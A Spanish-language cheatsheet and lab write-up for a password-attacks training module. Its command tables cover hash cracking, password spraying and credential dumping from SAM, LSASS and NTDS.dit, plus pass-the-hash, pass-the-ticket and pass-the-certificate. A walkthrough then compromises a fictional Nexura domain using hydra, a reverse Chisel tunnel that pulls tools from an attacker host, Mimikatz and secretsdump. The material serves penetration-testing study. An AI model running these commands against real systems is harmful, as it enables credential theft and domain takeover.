


# Password Attacks — Cheatsheet

> 📋 Cheatsheet de referencia (comandos, tablas, metodología) — **no** es un writeup de laboratorio con capturas. Para los writeups con capturas de Skills Assessments resueltos, ver `$ ls modulos/` en el README principal.

## Contenido

- [Password Attacks — Índice, cheatsheet y metodología](#password-attacks--índice-cheatsheet-y-metodología)
- [Skill Assessment — El "Credential Theft Shuffle" (Nexura LLC)](#skill-assessment--el-credential-theft-shuffle-nexura-llc)
- **Password Cracking Techniques**
  - [John The Ripper (JtR)](#john-the-ripper-jtr)
  - [Hashcat](#hashcat)
  - [Creación de listas de palabras y reglas personalizadas](#creación-de-listas-de-palabras-y-reglas-personalizadas)
  - [Crackeo de archivos protegidos](#crackeo-de-archivos-protegidos)
- **Remote Password Attacks**
  - [Fuerza bruta a servicios en red](#fuerza-bruta-a-servicios-en-red)
  - [Pulverización, relleno y credenciales por defecto](#pulverización-relleno-y-credenciales-por-defecto)
- **Extracting Passwords from Windows Systems**
  - [Proceso de autenticación de Windows](#proceso-de-autenticación-de-windows)
  - [Ataque a SAM, SYSTEM y SECURITY](#ataque-a-sam-system-y-security)
  - [Volcado de memoria de LSASS](#volcado-de-memoria-de-lsass)
  - [Atacando el Administrador de Credenciales de Windows](#atacando-el-administrador-de-credenciales-de-windows)
  - [Atacando Active Directory y NTDS.dit](#atacando-active-directory-y-ntdsdit)
  - [Búsqueda de credenciales en Windows](#búsqueda-de-credenciales-en-windows)
- **Extracting Passwords from Linux Systems**
  - [Proceso de autenticación de Linux](#proceso-de-autenticación-de-linux)
  - [Búsqueda de credenciales en Linux](#búsqueda-de-credenciales-en-linux)
- **Extracting Password from the Network**
  - [Búsqueda de credenciales en el tráfico de red](#búsqueda-de-credenciales-en-el-tráfico-de-red)
  - [Búsqueda de credenciales en recursos compartidos](#búsqueda-de-credenciales-en-recursos-compartidos)
- **Windows Lateral Movement Techniques**
  - [Pass the Hash (PtH)](#pass-the-hash-pth)
  - [Pass the Ticket (PtT) desde Windows](#pass-the-ticket-ptt-desde-windows)
  - [Pass the Ticket (PtT) desde Linux](#pass-the-ticket-ptt-desde-linux)
  - [Pass the Certificate (PtC)](#pass-the-certificate-ptc)

---

## Password Attacks — Índice, cheatsheet y metodología

Nota índice del módulo: enlaces a las notas, la **metodología** de crackeo y la **cheatsheet**.

---

### 🎯 Máquina de ejemplo (Skill Assessment)

- **El "Credential Theft Shuffle" (Nexura LLC)** → **Skill Assessment - El Credential Theft Shuffle (Nexura LLC)** — writeup completo que encadena **todo** el módulo: password spraying → loot Linux → pivoting (Chisel/proxychains) → loot SMB → crackeo de un Password Safe → Pass-the-Hash → NTDS.dit.

---

### Índice de notas

**Cracking offline** (*Password Cracking Techniques*)
- **Herramientas de crackeo** → **John The Ripper** · **Introduction to Hashcat**
- **Diccionarios y reglas** → **Creación de listas de palabras y reglas personalizadas**
- **Ficheros protegidos** → **Crackeo de archivos protegidos**

**Ataques remotos** (*Remote Password Attacks*)
- **Fuerza bruta a servicios** → **Servicios en red** (WinRM, SSH, RDP, SMB)
- **Spraying / stuffing / defaults** → **Pulverización, relleno y credenciales por defecto**

**Extracción en Windows** (*Extracting Passwords from Windows Systems*)
- **Teoría: cómo autentica Windows y dónde viven los hashes** → **Proceso de autenticación de Windows** (LSASS, SAM, NTDS.dit)
- **Volcar SAM/SYSTEM/SECURITY y crackear** → **Ataque a SAM, SYSTEM y SECURITY** (reg.exe, secretsdump, NetExec, DCC2, DPAPI)
- **Volcar memoria de LSASS** → **LSASS** (comsvcs.dll, pypykatz, WDIGEST/Kerberos/DPAPI)
- **Credential Manager** → **Atacando el Administrador de Credenciales de Windows** (cmdkey, runas /savecred, Mimikatz)
- **Dominio: NTDS.dit** → **Atacando Active Directory y NTDS.dit** (Kerbrute, VSS, secretsdump, Pass-the-Hash)
- **Rebuscar credenciales (loot)** → **Búsqueda de credenciales en Windows** (LaZagne, findstr)

**Extracción en Linux** (*Extracting Passwords from Linux Systems*)
- **Teoría + crackeo: PAM, passwd/shadow** → **Proceso de autenticación de Linux** (unshadow, John/Hashcat, `$id$`)
- **Rebuscar credenciales (loot)** → **Búsqueda de credenciales en Linux** (Mimipenguin, LaZagne, Firefox Decrypt)

**Extracción desde la red** (*Extracting Passwords from the Network*)
- **Tráfico de red (sniffing)** → **Búsqueda de credenciales en el tráfico de red** (protocolos en claro, Pcredz)
- **Recursos compartidos (SMB)** → **Búsqueda de credenciales en recursos compartidos** (Snaffler, PowerHuntShares, MANSPIDER, NetExec)

**Movimiento lateral en Windows** (*Windows Lateral Movement Techniques*)
- **Pass the Hash (PtH)** → **Pass the Hash (PtH)** (Mimikatz, Invoke-TheHash, Impacket, NetExec, evil-winrm, RDP)
- **Pass the Ticket (PtT) — Windows** → **Pass the Ticket (PtT) desde Windows** (Kerberos, OverPass-the-Hash, Mimikatz/Rubeus)
- **Pass the Ticket (PtT) — Linux** → **Pass the Ticket (PtT) desde Linux** (ccache, keytab, KRB5CCNAME, Impacket, ticketConverter)
- **Pass the Certificate (PtC)** → **Pass-the-Certificate** (AD CS/ESC8, ntlmrelayx, PKINIT, shadow credentials) — *avanzado/AD*

---

### Metodología de crackeo

1. **Obtener el hash** — de un fichero de hashes, o extraído de un archivo protegido con un script `*2john` (SSH, Office, ZIP, BitLocker…).
2. **Identificar el tipo de hash** — `hashid` / `hashcat --help` → número `-m` (Hashcat) o `--format` (John).
3. **Elegir el ataque**, de más rápido a más lento:
   - **Single** (John) — deriva del nombre de usuario (creds Linux).
   - **Diccionario** — `rockyou.txt` u otro.
   - **Diccionario + reglas** — `best64.rule` (mutaciones *leet*, años, `!`…).
   - **Máscara** — cuando sabes el patrón/longitud.
   - **Incremental / fuerza bruta** — último recurso.
4. **Wordlists a medida** — `cewl` (desde la web del objetivo), `cupp` (datos personales) → mejoran mucho el diccionario.
5. **Crackear** — John o Hashcat; `--show` para ver el resultado.

> [!TIP]
> **Orden mental**
> Empieza por lo **barato** (single/diccionario) y sube en coste (reglas → máscara → incremental). Una wordlist específica del objetivo (CeWL/CUPP) suele ganar antes que fuerza bruta pura.

---

### Cheatsheet

#### John
| Comando | Qué hace |
|---------|----------|
| `john --single <hash>` | Modo single (deriva del usuario) |
| `john --wordlist=<wl> <hash>` | Diccionario |
| `john --incremental <hash>` | Fuerza bruta |
| `john <hash> --show` | Ver crackeadas |
| `<x>2john <fichero> > f.hash` | Extraer hash de archivo protegido |

#### Hashcat
| Comando | Qué hace |
|---------|----------|
| `hashcat -a 0 -m <t> <hash> <wl>` | Diccionario |
| `hashcat -a 0 -m <t> <hash> <wl> -r best64.rule` | Diccionario + reglas |
| `hashcat -a 3 -m <t> <hash> '?u?l?l?l?d?s'` | Máscara |

#### Wordlists / protegidos
| Comando | Qué hace |
|---------|----------|
| `cewl <url> -d 4 -m 6 --lowercase -w out` | Wordlist desde web |
| `cupp -i` | Wordlist desde datos personales |
| `ssh2john`/`office2john`/`zip2john` + `john` | Crackear SSH/Office/ZIP |
| `bitlocker2john -i disk.vhd` → `hashcat -m 22100` | Crackear BitLocker |

#### Ataques remotos (online)
| Comando | Qué hace |
|---------|----------|
| `hydra -L u.list -P p.list <proto>://<IP>` | Fuerza bruta (ssh/rdp/smb…) |
| `netexec <proto> <IP> -u u -p p` | Fuerza bruta / login (`(Pwn3d!)` = RCE) |
| `netexec smb <CIDR> -u users.list -p 'ChangeMe123!'` | **Password spraying** (no bloquea) |
| `hydra -C user_pass.list <proto>://<IP>` | **Credential stuffing** (pares user:pass) |
| `creds search <producto>` | Credenciales por defecto |
| `evil-winrm -i <IP> -u u -p p` | Shell WinRM con creds |

#### Extracción en Windows (dónde están los hashes)
| Almacén | Qué guarda | Ruta |
|---------|-----------|------|
| **SAM** | Hashes de usuarios **locales** (necesita SYSTEM) | `%SystemRoot%\system32\config\SAM` |
| **LSASS** | Creds de sesiones **activas** (Mimikatz) | proceso `Lsass.exe` |
| **NTDS.dit** | Hashes de **todo el dominio** (solo en el DC) | `%SystemRoot%\NTDS\ntds.dit` |

#### Volcar SAM/SYSTEM/SECURITY → crackear
| Comando | Qué hace |
|---------|----------|
| `reg.exe save hklm\sam C:\sam.save` (+ `system`, `security`) | Copiar hives (víctima, admin) |
| `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL` | Extraer hashes offline |
| `netexec smb <IP> --local-auth -u u -p p --sam` / `--lsa` | Volcado remoto SAM / secretos LSA |
| `hashcat -m 1000 <hashes> rockyou.txt` | Crackear NT hash |
| `hashcat -m 2100 '$DCC2$...' rockyou.txt` | Crackear DCC2 (dominio en caché) |

#### Volcar LSASS y credenciales de Windows
| Comando | Qué hace |
|---------|----------|
| `rundll32 comsvcs.dll, MiniDump <PID> C:\lsass.dmp full` | Volcar memoria de LSASS (muy detectado) |
| `pypykatz lsa minidump lsass.dmp` | Extraer creds del `.dmp` (NT, WDIGEST claro, Kerberos, DPAPI) |
| `cmdkey /list` → `runas /savecred /user:D\u cmd` | Enumerar y reutilizar creds guardadas |
| `sekurlsa::credman` (Mimikatz) | Descifrar Credential Manager |
| `LaZagne.exe all` · `findstr /SIM /C:"password" *.*` | Rebuscar credenciales (loot) |

#### Dominio (NTDS.dit)
| Comando | Qué hace |
|---------|----------|
| `kerbrute userenum --dc <IP> --domain <d> names.txt` | Enumerar usuarios de dominio |
| `vssadmin CREATE SHADOW /For=C:` | Instantánea para copiar NTDS.dit |
| `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL` | Extraer hashes del dominio |
| `netexec smb <IP> -u u -p p -M ntdsutil` | Volcado remoto rápido de NTDS.dit |
| `evil-winrm -i <IP> -u Administrator -H <NT-hash>` | **Pass the Hash** |

#### Extracción en Linux
| Comando | Qué hace |
|---------|----------|
| `cat /etc/passwd` / `cat /etc/shadow` | Usuarios (público) / hashes (root) |
| `unshadow passwd shadow > unshadowed.hashes` | Combinar para crackear |
| `hashcat -m 1800 -a 0 unshadowed.hashes rockyou.txt` | Crackear ($6$ SHA-512; ajusta `-m` al `$id$`) |
| `sudo python3 mimipenguin.py` | Contraseñas en claro de memoria |
| `python3 laZagne.py all` · `python3 firefox_decrypt.py` | Creds de apps / navegador |
| `grep -rniE "password\|secret\|api_key" / 2>/dev/null` | Rebuscar credenciales en ficheros |

#### Extracción desde la red
| Comando | Qué hace |
|---------|----------|
| `./Pcredz -f captura.pcapng -t -v` | Extraer creds/hashes de una captura (o `-i <iface>` en vivo) |
| `hashcat -m 5600 hashes.txt rockyou.txt` | Crackear NetNTLMv2 capturado |
| `Snaffler.exe -s -o snaffler.log` | Rastrear shares del dominio (Windows) |
| `Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public` | Rastrear shares + informe HTML |
| `netexec smb <IP> -u u -p p --spider <SHARE> --content --pattern "passw"` | Rastrear shares (Linux) |
| `findstr /SIN /C:"passw" "\\<host>\<share>\*.txt"` | Buscar cadena en un share (manual) |

#### Pass the Hash (movimiento lateral)
| Comando | Qué hace |
|---------|----------|
| `sekurlsa::pth /user:u /rc4:<NT> /domain:<d> /run:cmd.exe` | PtH con Mimikatz (Windows) |
| `Invoke-SMBExec -Target <IP> -Username u -Hash <NT> -Command "..."` | PtH por SMB/WMI (PowerShell) |
| `impacket-psexec u@<IP> -hashes :<NT>` | Shell por PtH (Linux) |
| `netexec smb <IP/CIDR> -u u -d . -H <NT>` | PtH / spraying de hash (`Pwn3d!` → `-x`) |
| `evil-winrm -i <IP> -u u -H <NT>` | PtH por WinRM |
| `xfreerdp /v:<IP> /u:u /pth:<NT>` | PtH por RDP (requiere Restricted Admin) |

#### Pass the Ticket (Kerberos, Windows)
| Comando | Qué hace |
|---------|----------|
| `sekurlsa::tickets /export` · `Rubeus.exe dump /nowrap` | Recolectar tickets (`.kirbi`) |
| `sekurlsa::ekeys` | Volcar claves Kerberos (RC4/AES) |
| `sekurlsa::pth /domain:<d> /user:<u> /ntlm:<hash>` | OverPass-the-Hash (hash → TGT) |
| `Rubeus.exe asktgt /user:<u> /domain:<d> /aes256:<key> /ptt` | Pedir TGT e inyectar (PtT) |
| `kerberos::ptt <ticket.kirbi>` | Inyectar un ticket robado |
| `Enter-PSSession -ComputerName <host>` | Moverse lateral con el ticket inyectado |

#### Pass the Ticket (Kerberos, Linux)
| Comando | Qué hace |
|---------|----------|
| `realm list` · `ps -ef \| grep -i "winbind\|sssd"` | ¿Linux unido a AD? |
| `find / -name *keytab* -ls 2>/dev/null` · `ls -la /tmp` | Buscar keytabs / ccache |
| `klist -k -t <keytab>` · `kinit <u>@<D> -k -t <keytab>` | Ver / importar keytab |
| `export KRB5CCNAME=<ccache>` → `impacket-wmiexec <host> -k` | Usar ccache con Impacket |
| `impacket-ticketConverter <ccache> <salida.kirbi>` | Convertir ccache↔kirbi (Linux↔Windows) |

#### Pass the Certificate (AD CS, avanzado)
| Comando | Qué hace |
|---------|----------|
| `ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp --adcs --template KerberosAuthentication` | Relay NTLM → certificado |
| `printerbug.py <D>/<u>:'<p>'@<DC> <mi-IP>` | Forzar auth del DC (Printer Bug) |
| `gettgtpkinit.py -cert-pfx c.pfx -dc-ip <DC> '<D>/<cuenta>' out.ccache` | Cert → TGT (PKINIT) |
| `pywhisker ... --target <víctima> --action add` | Shadow credential (si tienes escritura) |

---

## Skill Assessment — El "Credential Theft Shuffle" (Nexura LLC)

> [!IMPORTANT]
> **Enunciado**
> **Betty Jayde** trabaja en Nexura LLC. Sabemos que usa la contraseña **`Texas123!@#`** en múltiples sitios web y creemos que podría reutilizarla en el trabajo. **Infiltra la red de Nexura y obtén ejecución de comandos en el controlador de dominio.**
>
> | Host | IP |
> |------|-----|
> | **DMZ01** | `10.129.*.*` (externa) · `172.16.119.13` (interna) |
> | **JUMP01** | `172.16.119.7` |
> | **FILE01** | `172.16.119.10` |
> | **DC01** | `172.16.119.11` |
>
> **Pregunta final:** *What is the NTLM hash of NEXURA\Administrator?*

Esta es la **máquina de ejemplo (Skill Assessment)** del módulo Password Attacks: une **todo** lo visto en el módulo (password spraying, loot de credenciales, pivoting, SMB, crackeo, Pass-the-Hash y NTDS.dit) en una sola cadena de ataque real.

---

### El "Credential Theft Shuffle" (el concepto detrás del ejercicio)

> [!NOTE]
> **Término acuñado por Sean Metcalf**
> Es el patrón sistemático que siguen los atacantes en entornos Active Directory:
> **acceso inicial** (phishing, creds reutilizadas…) → **admin local** en una máquina → **extraer credenciales de memoria** (Mimikatz) → **moverse lateralmente** con esas credenciales (**Pass-the-Hash**, NetExec) → repetir hasta **Domain Admin** o **DCSync**.
>
> Mitigaciones reales: **LAPS** (contraseñas de admin local únicas por equipo), **MFA**, y **restringir privilegios administrativos** al mínimo.

Este Skill Assessment es, literalmente, ese bucle ejecutado paso a paso. Lo vas a ver repetirse: **encuentras una credencial → la reutilizas → te da acceso a más credenciales → repites**.

---

### Mapa de red y plan de ataque



- **DMZ01** es el único host alcanzable desde fuera, y tiene una **segunda interfaz** hacia la red interna → es nuestro **punto de pivote**.
- **JUMP01 / FILE01 / DC01** solo son alcanzables **a través de** DMZ01.

> [!WARNING]
> **Pivoting — fuera del alcance de este módulo**
> El pivoting en profundidad (SSH dinámico, Chisel, Ligolo, port forwarding) se da en el módulo **Pivoting, Tunneling & Port Forwarding** (aún no cubierto en el vault). Aquí solo pongo los comandos mínimos para que la cadena de Password Attacks funcione de principio a fin.

---

### Fase 1 · Recon externo de DMZ01

```bash
sudo nmap -p- --min-rate=10000 10.129.47.10
```
Solo aparece **SSH (22)** abierto. Nada de web, nada de SMB — el único camino de entrada es la contraseña reutilizada de Betty.

> [!TIP]
> **`--min-rate` para ir rápido**
> `--min-rate=10000` acelera el escaneo forzando un ritmo mínimo de paquetes/seg — útil cuando quieres un `-p-` completo sin esperar una eternidad.

---

### Fase 2 · Password spraying por SSH (la pista inicial)

Tenemos **una contraseña** (`Texas123!@#`) pero no el usuario. Es el patrón exacto de ****password spraying****: una contraseña, muchos usuarios candidatos.

```bash
hydra -L userlist.txt -p 'Texas123!@#' ssh://10.129.47.10
```
*(`userlist.txt` = nombres candidatos, p. ej. generados con `username-anarchy` a partir de nombres de empleados — ver **Creación de listas de palabras y reglas personalizadas**).*

**Resultado:** `jbetty : Texas123!@#` ✅ — Betty Jayde reutilizó su contraseña en el trabajo, tal como sospechábamos.

```bash
ssh jbetty@10.129.47.10
```

> [!NOTE]
> **Probar las mismas creds en otros hosts**
> Es buena práctica probar siempre las credenciales encontradas contra **todos los hosts en alcance** (reutilización de contraseñas). Aquí no funcionó en los hosts internos — pero el hábito es gratis y a veces da acceso directo.

---

### Fase 3 · Loot local en DMZ01: `.bash_history`

Con shell en DMZ01, lo primero: mirar si el histórico de Bash **no** está enlazado a `/dev/null` (ver **Búsqueda de credenciales en Linux**):

```bash
cat ~/.bash_history
```
El histórico revela **más credenciales** usadas en la máquina — entre ellas, las de un usuario `hwilliam` que probaremos en los hosts internos.

> [!TIP]
> **Por qué el `.bash_history` es oro**
> Cualquier comando que alguien haya ejecutado con una contraseña **en línea de comandos** (`mysql -u root -pAlgo`, pruebas de `ssh otro_user@...`, etc.) queda **en texto plano** en el histórico. Es de los primeros sitios que miras tras un acceso inicial en Linux.

---

### Fase 4 · Pivoting con Chisel + Proxychains

Para llegar a JUMP01/FILE01/DC01 necesitamos **enrutar** nuestro tráfico a través de DMZ01.

**1. Preparar Chisel y subirlo a la víctima:**
```bash
# Atacante
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel

python3 -m http.server 8008
```
```bash
# Víctima (jbetty@DMZ01)
wget http://10.10.14.207:8008/chisel
chmod +x chisel
```
*(`10.10.14.207` = IP de **mi** VPN/tun0 — sustitúyela por la tuya).*

**2. Configurar Proxychains** (`/etc/proxychains.conf`, al final del fichero):
```
socks5  127.0.0.1 1080
```

**3. Levantar el túnel:**
```bash
# Atacante — servidor Chisel en modo reverse
./chisel server --reverse --port 8080
```
```bash
# Víctima — cliente Chisel abre un SOCKS de vuelta al atacante
./chisel client 10.10.14.207:8080 R:socks
```

A partir de aquí, **cualquier comando con `proxychains` delante** llega a la red interna **a través de DMZ01**.

---

### Fase 5 · Enumeración interna y acceso con credenciales reutilizadas

```bash
proxychains nmap -p 3389,5985,445,135 --min-rate=10000 -Pn -sT 172.16.119.10
```
- `-sT` → **obligatorio** con proxychains (no se puede hacer SYN scan a través de un proxy SOCKS).
- Filtramos a los puertos "golosos" de movimiento lateral: **RDP (3389), WinRM (5985), SMB (445), RPC (135)**.

Probamos las credenciales de `hwilliam` (encontradas en el `.bash_history`) contra los hosts internos:

```bash
# Falla contra FILE01
proxychains evil-winrm -i 172.16.119.10 -u hwilliam -p 'dealer-screwed-gym1'

# ✅ Funciona contra JUMP01
proxychains evil-winrm -i 172.16.119.7 -u hwilliam -p 'dealer-screwed-gym1'
```

Ya dentro de JUMP01, enumeramos contexto (ver **Búsqueda de credenciales en Windows**):

```powershell
whoami
whoami /groups   # miembro de NEXURA\HR — sin privilegios especiales
whoami /priv     # sin privilegios interesantes habilitados
```
`hwilliam` es un usuario normal del grupo **HR** — no admin, pero nos sirve de puente para seguir buscando.

---

### Fase 6 · Loot en recursos compartidos SMB (FILE01)

Como `hwilliam` es de RRHH, probamos sus credenciales contra el servidor de ficheros (técnica de **Búsqueda de credenciales en recursos compartidos**):

```bash
proxychains smbclient -L //172.16.119.10/ -U 'nexura\hwilliam'
proxychains smbclient //172.16.119.10/HR -U 'nexura\hwilliam'
```

Dentro del share **HR**, en la carpeta `Archive`, aparece un fichero interesante:

```
smb: \Archive\> get Employee-Passwords_OLD.psafe3
```

> [!NOTE]
> **¿Qué es un `.psafe3`?**
> Es una base de datos cifrada de **[Password Safe](https://pwsafe.org/)**: guarda pares usuario/contraseña bajo **una única contraseña maestra**. Si rompemos esa contraseña maestra, obtenemos **todas** las credenciales guardadas dentro.

---

### Fase 7 · Crackear el Password Safe

**1. Extraer el hash de la contraseña maestra** con `pwsafe2john.py` (familia `*2john`, como ya vimos en **Crackeo de archivos protegidos**):

```bash
pwsafe2john.py Employee-Passwords_OLD.psafe3 > master_hash.txt
cat master_hash.txt
```
Formato del hash:
```
Employee-Passwords_OLD:$pwsafe$*3*801e25992487ae60938723973f543abd7d1fab81f45da156194bc6e1976f8c59*262144*3e1d616a8f82a02514ed88cd37f1b6eab303d9a687c4d48fbe0c866775617978
```

**2. Crackear con John + rockyou:**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt master_hash.txt
john master_hash.txt --show
```
**Contraseña maestra: `michaeljackson`**

**3. Abrir el vault** con la app **pwsafe** y esa contraseña maestra → dentro hay una lista de **credenciales de empleados de Nexura** (clic derecho → *Copy Password to Clipboard* en cada entrada).

---

### Fase 8 · Reutilizar las credenciales del vault → admin en JUMP01

Con la lista de credenciales del `.psafe3`, probamos cada una contra los hosts internos (otra vez, el **"shuffle"**: credenciales nuevas → se prueban en todo). Una de ellas, `bdavid`, funciona en JUMP01:

```bash
proxychains evil-winrm -i 172.16.119.7 -u bdavid -p 'caramel-cigars-reply1'
```

Y al comprobar grupos, `bdavid` **sí** está en **Administrators** de JUMP01 — salto de privilegios sin explotar nada, solo por **reutilización de credenciales**.

---

### Fase 9 · Volcar LSASS con Mimikatz (ya como admin local)

Con admin local en JUMP01 podemos volcar la memoria de LSASS (técnica completa en **LSASS**).

**Transferir Mimikatz** (viene preinstalado en Pwnbox):
```bash
locate mimikatz.exe
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

Si ya tienes la sesión evil-winrm abierta, lo más simple es su comando nativo:
```
upload mimikatz.exe
```

> [!TIP]
> **Alternativa: relay de ficheros en 2 saltos (añadido)**
> Si JUMP01 **no** alcanza directamente a tu atacante (solo ve la red interna), puedes **retransmitir el fichero a través de DMZ01**:
> ```bash
> # Atacante
> python3 -m http.server 8008
> ```
> ```bash
> # DMZ01 (jbetty) — descarga del atacante y sirve de nuevo hacia dentro
> wget http://10.10.14.207:8008/mimikatz.exe
> python3 -m http.server 8008
> ```
> ```powershell
> # JUMP01 — descarga desde la IP interna de DMZ01
> Invoke-WebRequest "http://172.16.119.13:8008/mimikatz.exe" -OutFile C:\Users\bdavid\Documents\mimikatz.exe
> ```
> Útil siempre que un host interno no tenga ruta directa a tu VPN, pero sí a DMZ01.

**Ejecutar Mimikatz** y volcar las sesiones activas:

```
.\mimikatz.exe "privilege::debug sekurlsa::logonPasswords" exit
```

Entre las credenciales en memoria aparece el **hash NTLM de `stom`**:
```
21ea958524cfd9a7791737f8d2f764fa
```
*(un usuario que había iniciado sesión antes en JUMP01 y cuyas credenciales quedaron cacheadas en LSASS).*

---

### Fase 10 · Pass the Hash hacia el Controlador de Dominio

Con el hash de `stom`, probamos directamente contra el **DC** — sin crackearlo (técnica completa en **Pass the Hash (PtH)**):

```bash
proxychains evil-winrm -i 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa
```

✅ Entramos a **DC01**, y `stom` resulta ser miembro de **Domain Admins**. Con esto ya cumplimos el objetivo del enunciado ("ejecución de comandos en el controlador de dominio") — pero la pregunta pide ir un paso más allá.

---

### Fase 11 · Volcado de NTDS.dit (objetivo final)

En el DC, repetir Mimikatz no da hashes nuevos (sin otras sesiones cacheadas), así que vamos a por **todo el dominio**: el fichero `NTDS.dit` (técnica completa en **Atacando Active Directory y NTDS.dit**).

**1. Instantánea de volumen (VSS)** para poder copiar el fichero (está en uso):
```cmd
vssadmin CREATE SHADOW /For=C:
mkdir C:\NTDS
```

> [!WARNING]
> **El número de la shadow copy varía**
> El comando siguiente usa `HarddiskVolumeShadowCopy1`, pero **depende de la salida** de tu propio `vssadmin CREATE SHADOW` — revisa el número que te devuelva antes de copiar.

```cmd
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**2. Descargar el NTDS.dit** a tu atacante (comando nativo de evil-winrm):
```
cd C:\NTDS
download NTDS.dit
```

**3. Guardar y descargar el hive SYSTEM** (contiene la *boot key* necesaria para descifrar, ver **Ataque a SAM, SYSTEM y SECURITY**):
```cmd
reg.exe save hklm\system C:\system.save
```
```
download system.save
```

**4. Extraer todos los hashes del dominio** (en el atacante):
```bash
impacket-secretsdump -ntds NTDS.dit -system system.save LOCAL
```

La salida incluye la línea del **`Administrator`** con su **hash NTLM** — esa es la respuesta a la pregunta.

---

### Respuesta

> [!NOTE]
> **What is the NTLM hash of NEXURA\Administrator?**
> El `secretsdump` imprime una línea con este formato:
> ```
> Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
> ```
> El campo tras el segundo `:` (el **LM hash**, vacío/`aad3b435...`) no es la respuesta; lo que se pide es el **tercer campo**, el **hash NT**.

```
NEXURA\Administrator → 36e09e1e6ade94d63fbcab5e5b8d6d23
```

---

### Resumen de la cadena de ataque (cheatsheet)

| # | Fase | Técnica | Comando clave |
|---|------|---------|----------------|
| 1 | Recon externo | Nmap | `nmap -p- --min-rate=10000 <IP>` |
| 2 | Password spraying SSH | Hydra | `hydra -L userlist.txt -p '<pass>' ssh://<IP>` |
| 3 | Loot local | `.bash_history` | `cat ~/.bash_history` |
| 4 | Pivoting | Chisel + proxychains | `chisel server --reverse --port 8080` / `chisel client <atk>:8080 R:socks` |
| 5 | Acceso interno | evil-winrm + creds reutilizadas | `proxychains evil-winrm -i <IP> -u <u> -p '<pass>'` |
| 6 | Loot SMB | smbclient | `proxychains smbclient //<IP>/<share> -U '<dom>\<user>'` |
| 7 | Crackear vault | pwsafe2john + John | `pwsafe2john.py f.psafe3` → `john --wordlist=rockyou.txt` |
| 8 | Reutilizar creds del vault | evil-winrm | `proxychains evil-winrm -i <IP> -u <u> -p '<pass>'` |
| 9 | Volcar LSASS | Mimikatz | `sekurlsa::logonPasswords` |
| 10 | **Pass the Hash** | evil-winrm `-H` | `proxychains evil-winrm -i <DC> -u <u> -H <hash>` |
| 11 | **NTDS.dit** | VSS + secretsdump | `vssadmin CREATE SHADOW` → `impacket-secretsdump -ntds ... -system ... LOCAL` |

> [!TIP]
> **La lección del ejercicio**
> Ni un solo exploit. **Once pasos, todos por reutilización/robo de credenciales**: una contraseña filtrada → un histórico de bash → un fichero olvidado en un share → una memoria de proceso → un hash robado. Así es como se compromete un dominio en el mundo real — el **"Credential Theft Shuffle"** completo.

---

Relacionado: **0 - Password Attacks (Índice y cheatsheet)** · **Pulverización, relleno y credenciales por defecto** · **Búsqueda de credenciales en Linux** · **Búsqueda de credenciales en recursos compartidos** · **LSASS** · **Pass the Hash (PtH)** · **Atacando Active Directory y NTDS.dit**

---

## Password Cracking Techniques

### John The Ripper (JtR)

Herramienta de **crackeo de hashes** offline. Trabaja en tres modos principales según lo que sepas del objetivo.

---

#### Modos de crackeo

##### Single crack

```bash
john --single <hash_file>
```
Técnica pensada para **credenciales de Linux**: genera contraseñas candidatas a partir de datos de la propia víctima (**nombre de usuario**, nombre del directorio, GECOS…). Rápido y muy efectivo cuando la contraseña deriva del nombre de la cuenta.

##### Wordlist (ataque de diccionario)

```bash
john --wordlist=<wordlist_file> <hash_file>
```
Prueba las contraseñas de un **diccionario**. El modo más habitual.

##### Incremental (fuerza bruta)

```bash
john --incremental <hash_file>
```
El modo **más exhaustivo**: genera dinámicamente candidatas estilo fuerza bruta a partir de un **modelo estadístico**. Lento pero completo; úsalo cuando diccionario + reglas no bastan.

---

#### Identificación del formato de hash

Antes de crackear hay que saber **qué tipo de hash** es.

```bash
hashid -j <hash>          # sugiere el nombre de formato de John (-j)
john --format=<nombre> <hash_file>   # forzar el formato al crackear
